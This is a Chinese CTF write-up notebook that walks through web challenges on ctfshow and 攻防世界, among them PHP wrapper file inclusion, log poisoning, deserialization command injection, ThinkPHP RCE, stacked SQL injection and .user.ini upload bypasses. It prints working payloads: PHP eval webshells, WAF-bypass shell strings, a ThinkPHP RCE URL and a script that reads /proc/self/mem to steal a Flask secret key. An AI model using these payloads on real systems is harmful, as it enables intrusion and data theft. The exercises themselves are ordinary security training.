# CTF解题记录

[TOC]


## ctfshow

### WEB

#### web3


##### **查询资料：**

##### php梳理：http://t.csdnimg.cn/RYLhI

CTF中常用的php伪协议利用：

**file://**

作用：用于访问文件（绝对路径、相对路径、网络路径）

示例：

> ```
> http://www.xx.com?file=file:///etc/passswd
> ```

**php://**

作用：访问输入输出流

**1. `php://filter`**

作用：读取源代码并进行base64编码输出

示例：

> ```
> http://127.0.0.1/cmd.php?cmd=php://filter/read=convert.base64-encode/resource=[文件名]（针对php文件需要base64编码）
> ```

参数：

> resource=<要过滤的数据流> 这个参数是必须的。它指定了你要筛选过滤的数据流
> read=<读链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
> write=<写链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
> <；两个链的筛选列表> 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。

**2. `php://input`**

作用：执行POST数据中的php代码

示例：

> ```
> http://127.0.0.1/cmd.php?cmd=php://input
> ```
>
> > POST数据：`<?php phpinfo()?>`

注意：

> `enctype="multipart/form-data"` 的时候 `php://input` 是无效的

**data://**

作用：

> 自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。一般需要用到`base64编码`传输

示例：

> ```
> http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
> ```

##### **做题过程**


题目给了提示，需要get请求的url参数，可以利用php伪协议

使用burpsuit抓包，添加参数GET /?url=php://input

根据资料知，

因此可以将需要执行的php代码放在post参数中，这题比较简单直接ls查看当前目录文件发现疑似flag的文件

```php
<?php system("ls")?>
```



直接查看得到flag

```php
<?php system("cat ctf_go_go_go")?>
```






#### web4



又是文件包含，看上去跟上一道题一样，但是按照上一道思路伪协议不可行

##### 解法一



抓包查看rp（response package），发现服务器类型是nginx，上网查找nginx常规日志文件位置为/var/log/nginx/access.log，尝试包含日志文件的路径



得到返回数据



发现日志记录了报文header中UA部分。在UA中写入一句话木马

```php
<?php @eval($_POST['flag']); ?>
```

发送之后发现返回的日志文件中没有这段木马，原因应该是php代码被执行了



接下来直接用蚁剑连接





拿到flag

##### 解法二



直接在本地创建txt文件（php会被url过滤），文件中写入php代码

```php
<?php @eval($_POST['flag']); ?>
```

然后蚁剑连接破解。

但这样有个问题，因为电脑防火墙的原因，外部网站无法直接访问，导致无法通过该木马获取数据，因此先用cpolar转发





即可连接。


#### web5



观察题目，get两个参数，第一个全是英文字母，第二个全是数字，并且二者的md5加密后还要被认为相等。

这里利用到了php弱类型比较产生的漏洞加密后以0e开头会被认为是科学计数法数字0，从而被判定为相等

记录几个加密后以0e开头的

```
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
```

输入前两个拿到flag




#### web9



尝试sql注入，但是怎么样都没反应。

使用dirbuster扫描后台，检测后缀为php或txt的文件，发现





其中robots.txt如下



查看index.phps自动下载了一个php文件，是登录验证的源码，发现密码使用md5加密检测



搜索资料得知该类型可以利用



输入该字符串得到flag




#### web10



1. 在两个框中注入‘ “等符号，无反应
2. 尝试性的点了一下取消，居然下载了一个源码文件



后面又扫描了一下后台文件，发现了一个css文件



查看发现

这一发现也印证了取消可以下载文件。

但是拿到这个文件并没有太大作用，问题依旧很棘手，不知道该怎么注入。

然后查看题解，结合源码



这种情况关键词被过滤，并且是根据用户名先选出所有用户数据，在判断输入密码跟数据库中密码是否一致。

想办法让查询的数据中出现一个NULL，这样密码框不填，就可以使NULL=NULL



##### with rollup用法：






#### web11



直接将cookie中的PHPSESSID置空，将密码也置空，即可拿到



##### cookie和session

但是将PHPSESSID的值填入密码不行，原因是比较的是输入的password和服务器端session中的密码是否一致，服务器根据cookie中的PHPSESSID值解析判断该用户是session中的哪一个，然后再比较密码是否相同。当cookie中PHPSESSID被置空时，服务器解析时找不到用户，返回null，密码也是null因此成功登录。这是利用了弱类型比较漏洞。


#### web12


查看源代码，发现提示



尝试cmd=phpinfo();显示php页面，说明有漏洞

输入?cmd=print_r(glob(%27*%27));



发现有两个文件，使用highlight_file()查看另一个文件内容



##### glob()与highlight_file()

1. 



但是glob的内容需要用print_r打印，因为

- `print_r()`：主要用于输出数组、对象或其他复杂数据结构的内容。它会以易于阅读的格式将变量的内容打印出来，包括数组的键值对、对象的属性和方法等。
- `print`：用于输出字符串，它直接输出指定的字符串，不会对数据进行格式化或解析。

2. 

`highlight_file()` 函数，这是一个内置函数，用于在 Web 页面中以 HTML 格式高亮显示指定文件的内容。常用于读取文件


#### 红包题第二弹


查看源码，又是这样



输入cmd=cmd=phpinfo();，直接给出了源码



发现只要存在cmd参数，就显示源码，然后再解析cmd内容

其中preg_match()：使用了 PHP 中的正则表达式函数 `preg_match()` 来检查 `$cmd` 变量中是否包含特定的特殊字符。另外，在正则表达式中，斜杠 `/` 通常用作定界符，表示正则表达式的开始和结束。在 PHP 中，需要使用正斜杠将正则表达式包裹起来。


## 攻防世界

### WEB

#### ics-06





查看报表中心



选中日期没有反应，然后发现url中有参数id，尝试sql注入，没反应

题目描述中说明：数据被删除，只有一处留下痕迹，可能是某个id还可以用，用burpsuit爆破



只有id2333的返回报文长度不一样，查看内容，发现flag

##### 总结：爆破


#### baby_web





题目描述：想想初始页面？

尝试访问index.php，没反应，返回结果一样

用dirbuster扫描一下，发现果然有个index.php，并且大小跟1不一样，并且返回码是302



再次尝试访问，还是不行

搜索得知，302是被重定向了

用burpsuit抓包发送，



flag被隐藏，查看header



flag藏在报文头里

##### 总结：扫描、抓包


#### backup



备份文件



搜索得知：php的备份有两种：*.php~和*.php.bak

修改url

index.php.bak自动下载了一个文件，打开发现flag


##### 总结：php备份文件


#### Training-WWW-Robots


打开链接是一个维基百科的说明，

尝试访问robots.txt


发现一个新文件，访问拿到flag


##### 总结：robots.txt


#### simple_php


观察代码，这道题应该是利用php弱类型

首先a==0并且a为真，可以令a=a

然后b不能是数字，并且b>1234，可以令b=1235b


##### 总结：php弱类型

php中有两种比较的符号 == 与 ===

1 <?php
 2 $a = $b ;
 3 $a===$b ;
 4 ?>

=== 在进行比较的时候，会先判断两种字符串的类型是否相等，再比较

== 在进行比较的时候，会先将字符串类型转化成相同，再比较

如果比较一个数字和字符串或者比较涉及到数字内容的字符串，则字符串会被转换成数值并且比较按照数值来进行

**这里明确了说如果一个数值和字符串进行比较的时候，会将字符串转换成数值**

1 <?php
 2 var_dump("admin"==0); //true
 3 var_dump("1admin"==1); //true
 4 var_dump("admin1"==1) //false
 5 var_dump("admin1"==0) //true
 6 var_dump("0e123456"=="0e4456789"); //true 
 7 ?> //上述代码可自行测试

1 观察上述代码，"admin"==0 比较的时候，会将admin转化成数值，强制转化,由于admin是字符串，转化的结果是0自然和0相等
 2 "1admin"==1比较的时候会将1admin转化成数值,结果为1，而admin1“==1却等于错误，也就是"admin1"被转化成了0,为什么呢？？
3 "0e123456"=="0e456789"相互比较的时候，会将0e这类字符串识别为科学技术法的数字，0的无论多少次方都是零，所以相等

对于上述的问题我查了php手册

当一个字符串欸当作一个数值来取值，其结果和类型如下:如果该字符串没有包含'.','e','E'并且其数值值在整形的范围之内

该字符串被当作int来取值，其他所有情况下都被作为float来取值，**该字符串的开始部分决定了它的值，如果该字符串以合法的数值开始，则使用该数值，否则其值为0**。

 

1 <?php
 2 $test=1 + "10.5"; // $test=11.5(float)
 3 $test=1+"-1.3e3"; //$test=-1299(float)
 4 $test=1+"bob-1.3e3";//$test=1(int)
 5 $test=1+"2admin";//$test=3(int)
 6 $test=1+"admin2";//$test=1(int)
 7 ?>

所以就解释了"admin1"==1 =>False 的原因

 

来自 <https://www.cnblogs.com/Mrsm1th/p/6745532.html> 


#### weak_auth


根据题目名字和描述应该是弱口令


应该是需要字典爆破


但是答案不正确？

这道题拉入黑名单

后期补充：之前错误应该是当时场景过期了，即使flag正确也不会判定通过


##### 总结：弱口令，爆破


#### unseping


超纲，不会，先放着

···

一周后

再次尝试

观察代码，接收ctf参数，先base64解码，然后反序列化，反序列化之后会自动调用wakeup函数，wakeup会调用waf对参数args进行过滤：|`、`&`、`;`、空格、`/`、`cat`、`flag`、`tac`、`php`、`ls

释放对象时会调用析构函数，如果method为ping，就会调用ping方法，执行参数中的命令

因此只需要构造一个ease对象，method=ping，args=array("希望执行的命令")，然后序列化、base64加密，将结果作为ctf参数的值传给服务器即可。

##### 绕过wakeup或者waf：

1. 绕过wakeup：

```
1. 只需要使构造的对象属性个数大于源代码中类的属性即可，但该方法对php版本有要求：

- PHP5 < 5.6.25

- PHP7 < 7.0.10

  而根据rp这道题的php版本为PHP/7.4.28
```

2. 绕过waf

```
知识点：
1. 空格：
linux 上当shell是 bash的话 空格可以用 ${IFS}或者$IFS$9 代替
PS: $()与 ` `（反引号）:都是用来作命令替换的，执行括号或者反引号中的命令
 
其他空格绕过例子：
cat${IFS}flag.txt
cat$IFS$9flag.txt
cat<flag.txt
cat<>flag.txt

2. 命令拆分：
在linux下 ls 等价于 l''s  等价于 l""s，都可以执行，其他命令也是一样的，这是一个特性
```

代码框架如下：

```php
<?php

class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}

$args=array("l","s");
$a=new ease("ping",$args);
$data=base64_encode(serialize($a));
echo $data;

?>
```


将结果进行尝试


结果没反应

后来突然发现，应该是要用POST方法


果然可以了，现在要做的就是绕过waf并查看flag

ls查看目录

```php
$args=array('l""s');
```


查看flag_1s_here

```php
$args=array('ca""t${IFS}f""lag_1s_here');
```


没结果？这不是个文件吗？文件夹？

ls -l查看详细信息

**注意！**这两种得到的结果不一样

```
$args=array('l""s${IFS}-l');

$args=array("l''s${IFS}-l"); 
O:4:"ease":2:{s:12:"easemethod";s:4:"ping";s:10:"easeargs";a:1:{i:0;s:6:"l''s-l";}}//外边是双引号的时候${IFS}被当成了变量跳过了
```

```
使用$args=array('l""s${IFS}-l');查看
```


##### ls -l

```
array(3) {
  [0]=>
  string(7) "total 8"
  [1]=>
  string(53) "drwxr-xr-x 1 root root 4096 Mar 23 05:14 flag_1s_here"
  [2]=>
  string(50) "-rwxr-xr-x 1 root root  863 Aug 18  2022 index.php"
}

说明：
total 8：这是 ls -l 命令的默认输出中的一部分，它显示了目录中所有文件的总计大小。这一行并不表示实际的文件或目录。

drwxr-xr-x 1 root root 4096 Dec 17 13:04 flag_1s_here：这是目录中一个子目录的信息。具体解释如下：
drwxr-xr-x：这是文件权限的表示，d 表示这是一个目录，后面的权限分别表示文件所有者、文件所属组和其他用户的权限。
1：这是链接计数，表示目录中包含的链接数。
root root：这是文件的所有者和所属组。
4096：这是文件的大小（以字节为单位），对于目录来说，它显示为 4096。
Dec 17 13:04：这是文件的最后修改时间。

-rwxr-xr-x 1 root root 863 Aug 18 07:49 index.php：这是目录中一个文件的信息。具体解释如下：
-rwxr-xr-x：这是文件权限的表示，- 表示这是一个普通文件，后面的权限分别表示文件所有者、文件所属组和其他用户的权限。
1：这是链接计数，表示文件的硬链接数。
root root：这是文件的所有者和所属组。
863：这是文件的大小（以字节为单位）。
Aug 18 07:49：这是文件的最后修改时间。
```

继续ls查看flag_1s_here：

```php
$args=array('l""s${IFS}f""lag_1s_here');
```


查看flag_831b69012c67b35f.php：


直接访问没有任何信息，应该需要看源码

##### printf绕过

```
printf绕过
printf 同时可以识别八进制表示或十六进制表示的字符串
printf的格式化输出，可以将十六进制或者八进制的字符数字转化成其对应的ASCII字符内容输出

\NNN 八进制数 NNN 所代表的 ASCII 码字符。

\xHH 十六进制 HH 对应的8位字符。HH 可以是一到两位。

\uHHHH 十六进制 HHHH 对应的 Unicode 字符。HHHH 一到四位。

\UHHHHHHHH十六进制 HHHHHHHH 对应的 Unicode 字符。HHHHHHHH 一到八位


那么 printf${IFS}"\57" 表示把 / 给输出出来 绕过waf检查
```

构造如下payloud

```php
$args=array('ca""t${IFS}f""lag_1s_here$(printf${IFS}"\57")f""lag_831b69012c67b35f.p""hp');
```

代码如下

```php
<?php

class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}

$args=array('ca""t${IFS}f""lag_1s_here$(printf${IFS}"\57")f""lag_831b69012c67b35f.p""hp');
$a=new ease("ping",$args);
$b=serialize($a);
print($b."\n");
$data=base64_encode($b);
echo $data;


?>
```


至此，已成艺术

**绕过绕过绕过**

##### 总结：$命令替换、ls -l、waf绕过、空格绕过、printf绕过

参考：https://www.cnblogs.com/gradyblog/p/16989750.html


#### web2


对encode逆向解密miwen应该就是flag

```php
<?php

function decode($str) {
    // ROT13 解密
    $str = str_rot13($str);
    
    // 反转字符串
    $str = strrev($str);
    
    // Base64 解码
    $str = base64_decode($str);
    
    // 字符替换，将每个字符的 ASCII 值减 1
    $decoded = '';
    for ($i = 0; $i < strlen($str); $i++) {
        $decoded .= chr(ord(substr($str, $i, 1)) - 1);
    }

    //再次反转
    $decoded = strrev($decoded);
    
    return $decoded;
}

// 加密字符串
$miwen = "a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws";

// 解密加密字符串
$plaintext = decode($miwen);

// 输出解密结果
echo $plaintext;

?>
```

使用phpstudy，将文件放在WWW根目录下，浏览器访问即可

##### 总结：解密


#### warmup


查看源码


提示source.php


并且还提到了一个hint.php，查看


提示flag在这个里面

先看前面的源码source.php

1. request接收参数file，判断是否为空、是否是string、checkfile
2. 如果满足，则包含file
3. 否则打印滑稽

所以应该是要把ffffllllaaaagggg文件包含进file，关键就是怎么绕过checkfile

接下看重点看checkfile函数，白名单被写死，return true的情况只有三种

1. file在白名单中
2. 在file末尾加了个？，？前的部分在白名单中
3. 先将file进行url解码，然后同2

这里的file就是参数page，加？的目的应该是通过添加的？找到末尾坐标，但是正是这多此一举给了可趁之机，只需要先发制人，提前在file中加一个？，就可以让它解析错误，截取我们自己添加的？前面的部分

因此payload可以是hint.php?...ffffllllaaaagggg

但是由于ffffllllaaaagggg的路径不清楚，只能一个一个试，不停添加../

最终拿到flag


里面还有一个重点，就是在include ‘file’的时候，file是string类型的，然后从file中解析文件路径，因此才可以从hint.php?...ffffllllaaaagggg这种格式中解析出正确的ffffllllaaaagggg路径


##### 总结：php代码审计，绕过check


#### upload1


尝试上传任意txt文件，结果


选择一张图片上传


查看源码


发现前端对文件名过滤

使用burpsuit抓包发送php文件


成功上传，蚁剑连接


##### 总结：文件上传漏洞


#### NewsCenter


观察题目，只有一个search输入框可以挖掘漏洞，初步判断sql注入。

但是一旦输入单引号，服务器就崩


使用burpsuit抓包


直接上万能密码，成功回显所有news，说明的确是sql注入


先判断select列数，3


没有过滤，并且回显2，3。应该就是一道简单的注入题


##### 总结：sql注入


#### Web_php_unserialize


##### 补充：正则表达式规则

以下是一些常用的正则表达式元字符和规则：

1. **普通字符**：这些字符直接匹配其自身。例如，字母 `a` 将匹配字符串中的字母 `a`。
2. **元字符**：具有特殊含义的字符，例如 `^`、`$`、`.`、`*`、`+`、`?` 等。这些元字符用于构建更复杂的匹配模式。
3. **字符类**：用方括号 `[]` 表示，匹配其中任意一个字符。例如，`[abc]` 匹配字符 `a`、`b` 或 `c` 中的任意一个。
4. **字符范围**：在字符类中使用连字符 `-` 可以表示字符范围。例如，`[a-z]` 匹配任意小写字母，`[0-9]` 匹配任意数字。
5. **量词**：用于指定匹配重复次数的数量。常见的量词包括 `*`（零次或多次）、`+`（一次或多次）、`?`（零次或一次）、`{n}`（恰好 n 次）、`{n,}`（至少 n 次）、`{n,m}`（至少 n 次，至多 m 次）。
6. **定位符**：用于匹配字符串的边界，包括 `^`（匹配字符串的起始位置）、`$`（匹配字符串的结尾位置）、`\b`（匹配单词边界）等。
7. **转义字符**：用反斜杠 `\` 来转义特殊字符，使其具有普通字符的含义。例如，`\.` 匹配实际的点号字符，而不是元字符 `.`。
8. **分组和捕获**：使用圆括号 `()` 可以将一部分正则表达式组合成子表达式，并将其作为一个整体进行匹配。这还允许在匹配期间捕获子表达式的内容，以便稍后引用。
9. **反向引用**：在正则表达式中，可以使用 `\n`（其中 n 是一个数字）来引用捕获的子表达式的内容。
10. **修饰符**：在正则表达式的结束符号后，可以添加修饰符以改变匹配行为。常见的修饰符包括 `i`（不区分大小写）、`g`（全局匹配）、`m`（多行匹配）等。

那么这道题，这个正则表达式模式 `/[oc]:\d+:/i` 匹配的规则如下：

1. `[oc]:`：匹配一个字符，可以是 `o` 或 `c` 中的任意一个字符。方括号 `[...]` 表示字符集，里面的字符可以任意选择其中一个。`:` 表示匹配实际的冒号字符。
2. `\d+`：匹配一个或多个数字字符。`\d` 是一个特殊的元字符，表示匹配任意数字字符，`+` 表示匹配前面的内容至少一次。因此，`\d+` 表示匹配一个或多个连续的数字。
3. `:`：匹配实际的冒号字符。

综合起来，这个正则表达式模式匹配的字符串形式为 `[o|c]:数字+:`，其中 `o` 或 `c` 是字符集 `[oc]` 中的一个字符，后面跟着一个或多个数字，最后再跟着一个冒号 `:`。

这种模式通常用于匹配序列化字符串中的自定义对象引用标识符，因为这种标识符通常以 `o` 或 `c` 开头，后面跟着一些数字，然后再跟着一个冒号。如：o:5:

##### 函数绕过

1. 将传的参数进行base64编码，绕过base64_decode函数
2. 在反序列化串的O:前加个加号“+”，绕过preg_match函数
3. 修改反序列化串的对象属性个数（一般大于原个数），绕过wakeup函数

脚本代码：

```php
<?php 
class Demo { 
    private $file = 'fl4g.php';
}

$a=new Demo();
$b=serialize($a);
echo $b;
$b=str_replace('O:4','O:+4',$b);
$b=str_replace(':1:',':2:',$b);
$b=base64_encode($b);
echo $b;
?>
```

运行得到var


把var加到url后面得到flag


##### 总结：php反序列化漏洞，绕过


#### php_rce


thinkphp框架，没思路，看网上题解，这个框架是有漏洞的，上网搜索thinkphp漏洞，得知漏洞大致分两个版本


这个是5.0版本的，尝试在url中添加途中payload，果然可以，使用这个就可以拿到shell

```
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

ls查看目录


一级一级查看有没有flag

最终发现一个flag文件


cat查看文件


##### 总结：thinkphp框架漏洞，根据信息网上查找


#### command_execution


发现可能是简单的把命令拼接起来，尝试注入多条命令


接下来就是寻找flag的路径


##### 总结：命令拼接


#### **catcat-new**


点进一张图之后，观察url，猜测可能是sql注入

尝试各种注入，不可行，根据返回信息猜测可能是任意文件读取漏洞


尝试读取/etc/passwd文件，果然可以


##### 关于ctf常用的Linux文件路径：http://t.csdnimg.cn/Mi7J3

这道题可以从这入手，全部试一边看看，加深记忆


通过查看proc/self/cmdline发现执行当前程序的命令


当前程序的源代码应该就在app.py中，查看app.py：


代码如下：

```python
import os
import uuid
from flask import Flask, request, session, render_template
from cat import cat

flag = ""
app = Flask(
    __name__,
    static_url_path='/',
    static_folder='static'
)
app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"

if os.path.isfile("/flag"):
    flag = cat("/flag")
    os.remove("/flag")

@app.route('/', methods=['GET'])
def index():
    detailtxt = os.listdir('./details/')
    cats_list = []
    for i in detailtxt:
        cats_list.append(i[:i.index('.')])
        
    return render_template("index.html", cats_list=cats_list, cat=cat)


@app.route('/info', methods=["GET", 'POST'])
def info():
    filename = "./details/" + request.args.get('file', "")
    start = request.args.get('start', "0")
    end = request.args.get('end', "0")
    name = request.args.get('file', "")[:request.args.get('file', "").index('.')]
    
    return render_template("detail.html", catname=name, info=cat(filename, start, end))
    

@app.route('/admin', methods=["GET"])
def admin_can_list_root():
    if session.get('admin') == 1:
        return flag
    else:
        session['admin'] = 0
        return "NoNoNo"


if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=False, port=5637)

```

使用了flask框架，并且通过检查session的值来判断是否admin，那么可能需要伪造session

搜索flask框架漏洞，发现存在session漏洞：https://www.jianshu.com/p/56614e46093e


伪造session参考：http://t.csdnimg.cn/xDmL2

从github上下载session加密解密脚本：https://links.jianshu.com/go?to=https%3A%2F%2Fgithub.com%2Fnoraj%2Fflask-session-cookie-manager

脚本使用方法：


运行脚本发现缺少模块，使用pip安装，又报pip不是内部命令

先把pip目录D:\soft\python3.7.9\Scripts添加到系统环境变量path中

然后pip install安装响应模块

启动脚本


接下来就是伪造session中admin的值为1，但是伪造需要先拿到secret_key 

这道题的程序中，密钥是通过使用 `uuid.uuid4()` 函数生成了一个随机的 UUID（Universally Unique Identifier），然后通过 `replace("-", "")` 去掉了 UUID 中的破折号，最后再添加了一个固定的字符串 `*abcdefgh`。这样生成的字符串就作为了 Flask 应用程序的密钥。这种方法可以确保每次启动应用程序时都会生成一个不同的密钥，提高了安全性。因为 UUID 是按照特定算法生成的全局唯一标识符，所以可以保证生成的密钥是唯一的。

所以就要想办法找到uuid或者密钥

联想到刚才查到的Linux文件路径，proc/self/environ中可能存在密钥，先查看再说


内容如下：

```
HOSTNAME=33f63d52abb8
PYTHON_PIP_VERSION=21.2.4
SHLVL=1
HOME=/root
OLDPWD=/
GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D
PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/3cb8888cc2869620f57d5d2da64da38f516078c7/public/get-pip.py
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin
LANG=C.UTF-8
PYTHON_VERSION=3.7.12
PYTHON_SETUPTOOLS_VERSION=57.5.0
PWD=/app
PYTHON_GET_PIP_SHA256=c518250e91a70d7b20cceb15272209a4ded2a0c263ae5776f129e0d9b5674309

```

没有发现

由于这个密钥是每次程序运行随机生成的，所以只有在内存中可以找到

/proc/[pid]/maps  可以查看进程的内存映射，当前进程[pid]换成self即可


使用脚本从内存中寻找secret_key：

```python
import requests
import re

url='http://61.147.171.105:63081/'
s_key=''
map_list=requests.get(url+'info?file=../../proc/self/maps')

map_list=map_list.text.split('\\n') #根据字符串"\n"进行分割
for i in map_list:
    map_addr=re.match(r"([a-z0-9]+)-([a-z0-9]+) rw",i) #正则匹配rw可读可写内存区域，（）起到分组的作用
    if map_addr:
        start=int(map_addr.group(1),16)
        end=int(map_addr.group(2),16)
        print("found rw addr:",start,"-",end)

        res=requests.get(f"{url}info?file=../../proc/self/mem&start={start}&end={end}")
        if "*abcdefgh" in res.text:
            s_key_=re.findall("[a-z0-9]{32}\*abcdefgh",res.text)
            if s_key_:
                print("find secret_key:",s_key_[0])
                s_key=s_key_[0]
                break
```


拿到密钥：05b0f6e17a7e4437af97f749cef1a5b5*abcdefgh

接下来伪造session


拿到伪造session：eyJhZG1pbiI6MX0.ZflETw.2N1Cy_r_emRf9w8BRuf557N1q7I

注意，双引号包裹时里边不能再用双引号，要么\转义，要么使用单引号，这里踩坑


burpsuit重新发送数据包拿到flag


##### 总结：任意文件读取漏洞 + python flask框架session伪造漏洞 + 内存中读取secretkey


#### Web_php_include


##### 解法一：完全利用php伪协议

由于php://被过滤，使用data协议：data://text/plain,<?php phpinfo(); ?>


首先查看目录

##### 读取目录路径


##### 读取目录文件


glob查看当前路径下所有目录文件


highlight_file查看文件


或者使用file_get_contents


##### 总结：php伪协议：data://text/plain

##### php伪协议input和data、php读取目录路径、读取目录文件、读取文件

这个是数据流；php://input是输入流，从post中输入


#### supersqli


可以注入，但是关键字被过滤


尝试堆叠注入

查看数据库：show databases;


查看表名：show tables;


查看两个表的列名：

```sql
show columns from `words`;  show columns from `1919810931114514`;
```

**注意：查询时字符串需要加反引号**


最后一步就是查询字段内容

##### 方法一：改表名

```
alter table `words` rename to `w`;
alter table `1919810931114514` rename to `words`;
```


这里是因为修改了表名之后没有words表了，不用管，继续修改flag字段名

```
alter table `words` change `flag` `id` VARCHAR(50);
```

好吧其实是需要管的，三个语句需要同时注入，否则第一次修改了表明之后，words不存在，后面就无法查询，直接报错，后续的注入就无法进行了。


重启环境，重新注入

最后1' or 1=1#直接显示所有数据


##### 方法二：预编译

```sql
';sEt @sql = CONCAT('se','lect * from `1919810931114514`;');prEpare stmt from @sql;EXECUTE stmt;#
```

##### 总结：堆叠注入，修改表名、预编译


#### robots


直接查看robots.txt文件


查看隐藏的文件


##### 总结：robots.txt


#### file_include


又是一道php伪协议，但是之前的input或者data都不管用了，三道题明明长得一模一样，却只能用不同的伪协议


不理解，再次查找，发现不同协议的使用条件：https://www.cnblogs.com/Article-kelp/p/14581703.html

##### **不同协议的使用条件**

**php://input**　　使用条件（这些设定在php.ini文件中设置）：allow_url_fopen On/Off(均可) allow_url_include On

该协议获取数据包的消息正文的内容作为变量的值，官方定义如下：

[](https://img2020.cnblogs.com/blog/2293037/202103/2293037-20210323172833714-1538183316.png)


**data://**　　使用条件：（这些设定在php.ini文件中设置）：allow_url_fopen On/Off(均可) allow_url_include On

该协议类似于php://input，区别在于data://获取的是协议固定结构后的内容，官方定义如下：

[](https://img2020.cnblogs.com/blog/2293037/202103/2293037-20210324110503581-1163028539.png)

实际上除了data://text/plain;base64,这一用法之外还存在data://text/plain,这种用法，区别在于前者获取的是协议固定结构后所接内容的base64解密格式，而后者获取的是未被解密的格式。


**php://filter**　　使用条件：（这些设定在php.ini文件中设置）：allow_url_fopen On/Off(均可) allow_url_include On/Off(均可)

该协议多用来对文件处理，可以是读取时处理文件也可以是写入时处理文件，官方定义如下：

[](https://img2020.cnblogs.com/blog/2293037/202103/2293037-20210324222708274-685033217.png)

 resource=　　通常是本地文件的路径，绝对路径和相对路径均可以使用。

read=　　读取时选取的处理方式，一次可以选择多个处理方式，不同方式之间用|符号隔开。

write=　　写入时选取的处理方式，一次可以选择多个处理方式，不同方式之间用|符号隔开。

;　　（技术水平过于有限并没理解其用途，也不曾遇到使用案例，故此处除开不讲）

关于read和write参数，其具体数值有（两者通用）：

　　string.toupper 转换为大写

　　string.tolower 转换为小写

　　string.rot13 进行rot13加密

　　string.strip_tags 去除目标中含有的HTML、XML和PHP的标签（等同于strip_tags()函数）

　　convert.base64-encode 进行base64加密

　　convert.base64-decode 进行base64解密


**file://**　　使用条件：（这些设定在php.ini文件中设置）：allow_url_fopen On/Off(均可) allow_url_include On/Off(均可)

该协议用来访问服务端的本地文件，但是文件的协议固定结构后面的路径得是绝对路径（用相对路径则就不需要带上协议了），官方定义如下：

[](https://img2020.cnblogs.com/blog/2293037/202103/2293037-20210324154126034-997117649.png)


终于大概理解，继续这道题

使用filter读取check.php

```http
?filename=php://filter/read=convert.base64-encode/resource=./check.php
```

结果得到


应该是被过滤掉了，但至少说明这个伪协议可以用，只需要想办法绕过

能换掉的只有中间的read=convert.base64-encode部分，查找php可用的过滤器

convert.quoted-printable-encode也不行

把read去掉，过滤器换成php://filter/convert.iconv.utf-16le.utf-8/resource=./check.ph就有反应了，但是编码格式不对


utf8和utf16顺序写反了，格式如下：convert.iconv.<input-encoding>.<output-encoding>


代码如下：

```php
<?php
if ($_GET["filename"]) {
    $preg_match_username = 'return preg_match("/base|be|encode|print|zlib|quoted|write|rot13|read|string/i", $_GET["filename"]);';
    if (eval($preg_match_username)) {
        die("do not hack!");
    }
}
?>

```

到这一步没思路了，才想起来用dirbuster扫描文件，发现


直接访问不可以


那就还是通过伪协议


##### 总结：php://filter伪协议，过滤器绕过


#### fileclude


首先file2=php://input，然后在post参数传入hello ctf

file1=flag.php

成功回显


说明input伪协议是可以用的

接下来使用filter来读取flag.php文件

```php
file1=php://filter/read=convert.base64-encode/resource=flag.php
```


base64解码


##### 总结：php伪协议


#### get_post


#### easyupload

经过尝试，只能上传图片文件，只修改jpg后缀没用，并且在图片文件中插入木马也没用，php被过滤掉了

上传正常图片文件，插入缩减版木马

```php
<?= eval($_POST[1]);?>
```

可以上传，但不能用蚁剑读取


抓包发现，实际上是把文件内容读取进http数据包，并且Content-Type:为image/png


查看题解，利用到.user.ini文件

##### .user.ini

`.user.ini` 是 PHP 中的一个配置文件，它允许用户在特定目录下自定义 PHP 的配置选项。这个文件可以包含各种 PHP 配置指令，用来覆盖全局的 PHP 配置。在一个 PHP 应用程序的目录中放置一个 `user.ini` 文件，可以让你在这个应用程序中自定义一些 PHP 的配置，而不会影响到其他应用程序或全局 PHP 配置。

`.user.ini` 文件只对其所在目录及其子目录中的 PHP 文件生效。

`auto_prepend_file` 是 PHP 的一个配置指令，用于指定在每个 PHP 文件执行之前自动包含（prepend）的文件。

利用.user.ini以及auto_prepend_file选项即可让同级目录的所有php运行前包含指定文件

因此只需要先上传.user.ini，再上传含有木马的指定文件，蚁剑连接同级目录的php即可破解

##### 文件上传，修改报头

因为这道题设置了对文件头的检查，对文件名实际没有检查。因此需要在文件头部添加图片对应的头部格式如GIF89a、BM，各种图片文件头标识参考https://blog.csdn.net/xpplearnc/article/details/12950811


并且不能直接上传，先抓包，修改content-type


接下来先上传.user.ini，配置包含文件a.jpg


然后上传a.jpg，但这个a.jpg并不是真的图片，而是加了文件头GIF89a的木马文件，修改后缀名为.jpg


##### php缩减版

但是因为本题对php进行了过滤，因此需要使用缩减版木马

```php
<?=@eval($_POST['flag']); ?>
```

##### 蚁剑连接同级php文件

接下来就是蚁剑连接了，前说过，.user.ini只对同级目录或子目录下的php生效，因此还需要找到一个可用的php文件

upload的目录是


可以直接尝试/uploads/index.php

或者使用dirbuster扫描

最终连接成功拿到flag


##### 总结：.user.ini、图片文件头标识、php缩减版

参考：https://www.cnblogs.com/miraclewolf/p/17589135.html


#### PHP2


抓包，啥也没有


扫描文件，扫描不到

没办法了，搜

原来还有扩展名这一说


看了源码，第一想法是php弱类型比较漏洞，但是无从下手

